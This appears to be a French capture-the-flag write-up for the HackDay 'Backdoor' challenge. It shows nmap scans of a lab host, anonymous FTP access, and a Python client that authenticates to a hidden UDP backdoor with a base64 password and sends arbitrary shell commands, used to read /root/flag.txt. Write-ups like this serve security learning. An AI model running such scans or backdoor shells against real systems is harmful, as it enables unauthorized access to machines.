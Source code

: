 # Challenge "Backdoor - Partie 1"

Notes: J'ai écrit ce writeup de tête, je n'avais pas le docker à disposition au moment de sa redaction.

## Description du challenge
Quelqu'un tente d'usurper le site du HackDay ! Tente de l'en empecher !

## Notre solution

Notre premier reflexe a été de regarder dans notre navigateur le site web, celui-ci est une copie du site web du hackday que l'on peut retrouver ici : [Site du Hackday](https://hackday.fr/), mais nous n'avons pas trouvé de problème particulier sur celui-ci.

Nous avons donc ensuite cherché les ports ouvers via nmap: `sudo nmap -sV -p- -O 192.168.110.105 -vv` et avons observés deux ports ouverts (le port du serveur web `80` et le port du ftp `21`).

Nous avons ensuite essayé de nous connecter au ftp en mode anonyme, nous avons réussi, mais il n'y avait pas de résultats intéressant à traiter (seulement un message du hacker du site :( ).

Plus tard, on nous a donné l'indice de chercher dans les ports entre `34000` et `35000`, et nous avons remarqué en faisant un scan UDP  dans cette plage (`nmap -sU -p34000-35000 192.168.110.105 -vv`) que le port `34865` était ouvert et nous renvoyais des réponses.
Nous avons très vite identifié que les réponses du socket UDP nous renvoyais du base64 qui disait `not Authorized`, en envoyant des requêtes encodés en base64, il nous renvoyait alors `not Authorized. Send password`, nous avons très vite trouvé que le mot de passe était en fait `hackday` et que le socket nous laissait envoyer une commande dans les 2 secondes qui suivaient.

J'ai par conséquent créé un petit script python afin de me simplifier l'accès au système !
```python
import socket
import base64
import time

ip = "192.168.110.105"
port = 34865

password = b"hackday"

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

def connect():
  result = ""
  while result != "You are now authentified. Welcome on HACKDAY backdoor ! Hope you are verry fast ;)":
    sock.sendto(base64.b64encode(password), (ip,port))
    result = base64.b64decode(sock.recvfrom(1024)[0].decode()).decode()


while True:
  msg = bytes(input("CMD: "), 'ascii')
  connect()
  sock.sendto(base64.b64encode(msg), (ip,port))
  print(base64.b64decode(sock.recvfrom(8192*2)[0].decode()).decode())
```

Grâce à ce script, j'ai pu trouver le flag qui était caché dans la machine : `/root/flag.txt`.
